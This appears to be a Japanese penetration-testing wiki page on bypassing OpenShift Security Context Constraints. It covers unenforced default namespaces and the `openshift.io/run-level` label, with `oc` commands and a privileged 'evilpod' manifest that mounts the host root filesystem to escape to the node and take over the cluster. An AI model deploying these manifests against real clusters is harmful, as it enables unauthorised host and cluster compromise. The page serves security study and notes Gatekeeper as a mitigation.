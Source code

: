 # Openshift - SCC バイパス

**このページの元の著者は** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## 特権付きの名前空間

デフォルトでは、SCC は以下のプロジェクトには適用されません：

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

これらの名前空間のいずれかにポッドをデプロイすると、SCC は強制されず、特権付きのポッドをデプロイしたり、ホストファイルシステムをマウントしたりすることが可能になります。

## 名前空間ラベル

RedHat のドキュメントによると、ポッド上で SCC アプリケーションを無効にする方法があります。次のいずれかの権限が必要です：

- 名前空間を作成し、その名前空間でポッドを作成する
- 名前空間を編集し、その名前空間でポッドを作成する
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
特定のラベル`openshift.io/run-level`を使用すると、アプリケーションのためにSCCを回避することができます。RedHatのドキュメントによると、このラベルを使用すると、その名前空間内のすべてのポッドに対してSCCが強制されず、実質的に制限が解除されます。

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## ラベルの追加

名前空間にラベルを追加するには：
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
以下の手順で、ラベルを持つ名前空間をYAMLファイルを使用して作成します:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
現在、名前空間で作成されたすべての新しいポッドにはSCCがないはずです

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCCがない場合、ポッド定義に制限がありません。これは、悪意のあるポッドが簡単に作成されてホストシステムに逃れる可能性があることを意味します。
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
### OpenShift SCC バイパス

現在、特権を昇格させてホストシステムにアクセスし、その後クラスタ全体を乗っ取り、'cluster-admin' 権限を取得することが容易になりました。次のページの **Node-Post Exploitation** 部分を参照してください：

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### カスタムラベル

さらに、ターゲットのセットアップに基づいて、以前の攻撃シナリオと同様に一部のカスタムラベル / 注釈が使用される場合があります。それが意図されていなくても、ラベルは特定のリソースに権限を付与したり、制限したり、付与しなかったりするために使用できます。

リソースを読むことができる場合は、カスタムラベルを探してみてください。以下は興味深いリソースのリストです：

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## すべての特権名前空間をリストします
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 高度なエクスプロイト

OpenShiftでは、前述のように、`openshift.io/run-level`ラベルが付いた名前空間にポッドをデプロイする権限を持っていると、クラスターの簡単な乗っ取りにつながる可能性があります。クラスター設定の観点から、この機能はOpenShiftの設計上不可欠なため、**無効にすることはできません**。

ただし、**Open Policy Agent GateKeeper**のような緩和措置を取ることで、ユーザーがこのラベルを設定するのを防ぐことができます。

GateKeeperのルールをバイパスしてこのラベルを設定し、クラスターの乗っ取りを実行するには、**攻撃者は代替手段を特定する必要があります。**

## 参考

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
